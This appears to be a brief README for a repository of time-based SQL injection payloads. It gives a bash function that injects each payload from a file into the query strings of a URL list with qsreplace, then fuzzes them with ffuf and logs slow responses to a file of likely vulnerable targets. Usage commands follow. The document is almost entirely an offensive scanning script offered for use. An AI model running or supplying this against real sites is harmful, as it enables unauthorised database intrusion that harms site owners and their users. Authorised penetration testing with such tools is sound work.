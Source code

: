 # time-based-sqli-payloads
1.
```
# Time Based Sql Injection
sqliTime()
{
for i in $(cat ~/.path/To/payloads) ; do
  cat $1 | qsreplace "$i" > sqli
  ffuf -u FUZZ -w sqli -s -ft "<15000" | tee -a vulnSqli.txt
  rm sqli
done
}
```
2.
```
> source .bashrc
```
3.
```
> sqliTime urls
> sqliTime urls.txt
```
